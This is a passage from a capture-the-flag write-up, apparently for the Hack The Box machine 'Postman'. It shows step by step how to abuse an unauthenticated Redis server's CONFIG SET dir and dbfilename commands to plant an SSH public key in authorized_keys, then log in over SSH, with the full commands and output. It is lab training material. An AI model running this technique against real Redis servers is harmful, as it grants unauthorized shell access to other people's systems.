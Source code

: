 I verified that the directory exists on the box:

```
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis"
OK
```

On a normal installation we would not be able to do anything with this user since the login shell is set to `/usr/sbin/nologin` but on Postman the login shell is set to `/bin/bash`. Here are the steps I followed to put my SSH key on the server.

Step 1. Generate blob to be injected

```
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
root@kali:~/htb/postman# cat ~/.ssh/id_rsa.pub >> blob.txt
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
```

Step 2. Update the Redis configuration

```
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
```

Step 3. Do the attack

```
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/htb/postman# cat blob.txt | redis-cli -h 10.10.10.160 -x set sshblob
OK
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 save
OK
```

And we can now log in to the box with SSH:

```
root@kali:~/htb/postman# ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$
```

